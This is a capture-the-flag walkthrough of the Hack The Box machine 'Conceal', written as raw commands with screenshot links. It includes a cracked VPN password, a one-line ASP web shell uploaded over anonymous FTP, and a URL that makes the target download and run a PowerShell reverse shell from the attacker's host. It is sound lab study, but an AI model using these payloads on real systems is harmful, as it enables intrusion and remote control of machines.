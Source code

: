 ```
nmap -sU 10.10.10.116
https://book.hacktricks.xyz/network-services-pentesting/ipsec-ike-vpn-pentesting
ike-scan -M 10.10.10.116
snmpwalk -v2c -c public 10.10.10.116
https://crackstation.net/
ipsec up conceal
nmap -sT -p- 10.10.10.116
ftp 10.10.10.116 : anonymous
put cmd.asp
http://10.10.10.116/upload/cmd.asp?cmd=whoami
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
http://10.10.10.116/upload/cmd.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.7/Invoke-PowerShellTcp.ps1%27)
SeImpresonatePrivilege : JuicyPotato
https://0xdf.gitlab.io/2019/05/18/htb-conceal.html
```


```
nmap -sU 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232364715-ff3ffc38-74c1-4413-bfc3-fcae12865969.png)



```
ike-scan 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232364778-a4a13ea3-021b-4d83-8b00-c03c57b5a620.png)


```
https://book.hacktricks.xyz/network-services-pentesting/ipsec-ike-vpn-pentesting
ike-scan -M 10.10.10.116
ike-scan -M --showbackoff 10.10.10.116
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c508137c-11a9-4f6e-8d80-781a3670a7e6)
![image](https://github.com/regarmulia/HTB/assets/33616880/e16751c3-eeb3-4562-b04e-01b0144a7b82)


```
snmpwalk -v2c -c public 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232364814-465dd54b-fd4a-41e8-a43e-41c669b5d4cd.png)



```
john hash -w=/usr/share/wordlists/rockyou.txt --format=NT
```
![image](https://user-images.githubusercontent.com/33616880/232364875-518777e7-95f3-41ef-bfbe-53774db9d249.png)


```
https://crackstation.net/
Dudecake1!
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c1b4e31c-0f2c-4bc6-bf11-a97d3ee2f339)


```
apt install strongswan
```
![image](https://user-images.githubusercontent.com/33616880/232364935-4cbb7254-df0b-420b-a78d-6829d4000f61.png)
![image](https://user-images.githubusercontent.com/33616880/232364951-64aa1c8c-7ab1-46bb-aed3-7e50852792e5.png)
![image](https://user-images.githubusercontent.com/33616880/232364962-c98b750a-4e75-45f0-aca8-610f44cd4254.png)



```
ipsec up conceal
```
![image](https://user-images.githubusercontent.com/33616880/232365041-1bdb6e08-96cf-4bd8-bff2-0c379c88a5c8.png)



```
nmap -sT -p- 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232365088-55b7420a-981a-49da-89f9-0a26f7f7fbdf.png)



![image](https://user-images.githubusercontent.com/33616880/232365141-15f38484-a572-42cd-88e0-94e3d5e6e527.png)



```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.116/FUZZ -fc 403 -e .aspx,.php,.txt,.html
![image](https://user-images.githubusercontent.com/33616880/232365179-3ae6cec7-5cc5-4768-8365-bfd5630c7cb4.png)
```
![image](https://user-images.githubusercontent.com/33616880/232365198-6ebb3b00-d084-45d0-a9f8-3dc461c794d0.png)



```
ftp 10.10.10.116 : anonymous
put test.txt
```
![image](https://user-images.githubusercontent.com/33616880/232365238-86c2e89e-90ad-46d2-83fe-6445f34f048d.png)
![image](https://user-images.githubusercontent.com/33616880/232365246-f42f2534-6a5c-45af-a10b-33db27d89131.png)



```
<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
```
```
http://10.10.10.116/upload/cmd.asp?cmd=whoami
```
![image](https://user-images.githubusercontent.com/33616880/232366101-57441e0d-fc94-4fbb-99d5-d55b856e0ad0.png)
![image](https://user-images.githubusercontent.com/33616880/232366110-7f6082bd-20b8-48b0-a5f1-dadc070b338f.png)
![image](https://user-images.githubusercontent.com/33616880/232366126-b3fc0a5b-6379-4593-9ff0-68a460f93c88.png)



```
git clone https://github.com/samratashok/nishang.git
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
Add payload a line to the end: Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 4444
http://10.10.10.116/upload/cmd.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.7/Invoke-PowerShellTcp.ps1%27)
```
![image](https://user-images.githubusercontent.com/33616880/232365388-518308e7-efb2-4b48-adef-583573a84920.png)
![image](https://user-images.githubusercontent.com/33616880/232365400-966934e9-4409-414f-8ef7-41e86897b1b6.png)
![image](https://user-images.githubusercontent.com/33616880/232365409-b30bd056-5ec7-4a2b-9540-6f0eb3417dd7.png)


```
type proof.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/69164830-2b2e-4b58-bb1e-694899fd8dc9)


```
whoami /priv
```
![image](https://user-images.githubusercontent.com/33616880/232365422-2e537ec4-2461-4de6-b1ef-bb85995c0182.png)

